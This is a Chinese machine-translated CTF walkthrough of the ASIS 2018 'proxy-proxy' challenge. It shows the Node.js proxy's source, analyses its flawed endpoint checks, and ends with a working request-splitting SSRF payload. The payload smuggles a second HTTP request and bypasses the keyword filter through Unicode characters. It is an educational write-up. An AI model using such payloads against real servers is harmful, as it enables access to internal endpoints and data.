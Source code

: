 # NodeJS SSRF 通过响应分裂-ASIS CTF 总决赛 2018-代理-代理问题演练

> 原文：<https://infosecwriteups.com/nodejs-ssrf-by-response-splitting-asis-ctf-finals-2018-proxy-proxy-question-walkthrough-9a2424923501?source=collection_archive---------2----------------------->

大家好，这个故事是关于 2018 年 ASIS CTF 总决赛参与者的“代理-代理”问题。问题是从这样一页开始的:

![](img/6a276f286fa1b99971981cd628ec8058.png)

以下端点可用:

1.  /proxy/internal _ website/public _ notes
2.  /proxy/internal _ web 站点/public_links
3.  /标志

显然，前两个没有用，最后一个有消息:`forbidden`

随便放一个词和 URL 的结尾，透露(/proxy/internal_website/blah):

```
Undefined endpoint, available endpoints are: ["**public_notes**","**public_links**","**source_code**"]
```

发现的源代码:

```
const express = require('express');
const fs = require('fs');
const path = require('path');
const body_parser = require('body-parser');
const md5 = require('md5');
const http = require('http');
var ip = require("ip");
require('x-date');
var server_ip = ip.address() const server = express();
server.use(body_parser.urlencoded({
    extended: true
}));
server.use(express.static('public')) server.set('views', path.join(__dirname, 'views'));
server.set('view engine', 'jade');
server.listen(5000) server.get('/', function(request, result) {
    result.render('index');
    result.end()
})
function check_endpoint(available_endpoints, endpoint) {
    for (i of available_endpoints) {
        if (endpoint.indexOf(i) == 0) {
            return true;
        }
    }
    return false;
}
fs.readFile('flag.dat', 'utf8', function(err, contents) {
    if (err) {
        throw err;
    }
    flag = contents;
}) server.get('/proxy/internal_website/:page', function(request, result) {
    var available_endpoints = ['public_notes', 'public_links', 'source_code']
    var page = request.params.page result.setHeader('X-Node-js-Version', 'v8.12.0') result.setHeader('X-Express-Version', 'v4.16.3') if (page.toLowerCase().includes('flag')) {
        result.sendStatus(403) result.end()
    } else if (!check_endpoint(available_endpoints, page)) {
        result.render('available_endpoints', {
            endpoints: JSON.stringify(available_endpoints)
        }) result.end()
    } else {
        http.get('[http://127.0.0.1:5000/'](http://127.0.0.1:5000/') + page, function(res) {
            res.setEncoding('utf8');
            if (res.statusCode == 200) {
                res.on('data', function(chunk) {
                    result.render('proxy', {
                        contents: chunk
                    }) result.end()
                });
            } else if (res.statusCode == 404) {
                result.render('proxy', {
                    contents: 'The resource not found.'
                }) result.end()
            } else {
                result.end()
            }
        }).on('error', function(e) {
            console.log("Got error: " + e.message);
        });
    }
}) server.use(function(request, result, next) {
    ip = request.connection.remoteAddress
    if (ip.substr(0, 7) == "::ffff:") {
        ip = ip.substr(7)
    }
    if (ip != '127.0.0.1' && ip != server_ip) {
        result.render('unauthorized') result.end()
    } else {
        next()
    }
}) server.get('/public_notes', function(request, result) {
    result.render('public_notes');
    result.end()
}) server.get('/public_links', function(request, result) {
    result.render('public_links');
    result.end()
}) server.get('/source_code', function(request, result) {
    fs.readFile('server.js', 'utf8', function(err, contents) {
        if (err) {
            throw err;
        }
        result.render('source_code', {
            source: contents
        }) result.end()
    })
}) server.get('/flag/:token', function(request, result) {
    var token = request.params.token
    if (token.length > 10) {
        console.log(ip) fs.writeFile('public/temp/' + md5(ip + token), flag, (err) => {
            if (err) throw err;
            result.end();
        });
    }
}) server.get('/', function(request, result) {
    result.render('index');
    result.end()
}) server.get('*', function(req, result) {
    result.sendStatus(404);
    result.end()
});
```

分析:

1.  唯一可以从外部执行的路径是**/proxy/internal _ website/:page**
2.  只有 3 个端点可以通过代理调用。

```
var available_endpoints = ['public_notes', 'public_links', 'source_code']
```

3.根据代码，对于可用的端点，只检查变量的开头。

```
if (endpoint.indexOf(i) == 0) {
```

4.`page`变量不能有单词`flag`，考虑到代码，它不能被绕过:

```
page.toLowerCase().includes('flag')
```

5.端点 **/flag/:token** 保存包含标志的文件。

6.根据代码，没有一个端点是可直接调用的。

```
if (ip != '127.0.0.1' && ip != server_ip) {
    result.render('unauthorized') result.end()
} else {
    next()
}
```

我必须通过代理向端点`/flag/:token`发送一个 HTTP 请求。然而，它不在可用的端点中，而且`flag`这个词是被禁止的。乍看起来似乎不可能，但是 NodeJS 的版本容易受到 SSRF 的攻击。代码中的提示:

```
result.setHeader('X-Node-js-Version', 'v8.12.0') result.setHeader('X-Express-Version', 'v4.16.3')
```

易受攻击的代码:

```
http.get('[http://127.0.0.1:5000/'](http://127.0.0.1:5000/') + page, function(res) {
```

关于漏洞的文章(仔细阅读，我省略了对漏洞的描述):

```
[https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
```

因此，以下有效负载导致发送两个单独的 HTTP 请求，第一个发送到`/public_notes`端点，第二个发送到`/flag/irgeeksssrf`，这导致将`flag`保存在`/temp/`文件夹中的名称`md5(127.0.0.1irgeesssrf`内:

```
public_notes\u{0120}HTTP/1.1\u{010D}\u{010A}Host:\u{0120}127.0.0.1\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/\u{0166}\u{016c}\u{0161}\u{0167}/irgeeksirgeeks
```

最终 URL:

```
/proxy/internal_website/public_notes%C4%A0HTTP%2F1.1%C4%8D%C4%8AHost%3A%C4%A0127.0.0.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2F%C5%A6%C5%AC%C5%A1%C5%A7%2Firgeeksirgeeks
```

**注意:**端点是`public_notes`，正如分析中提到的，我们可以扩展端点，因为只检查了端点的开始。

**注意:**以下 Unicode 被翻译成`flag`并绕过条件`.includes('flag')`:

```
\u{0166}\u{016c}\u{0161}\u{0167}
666c6167 = flag
```

旗帜是 ASIS。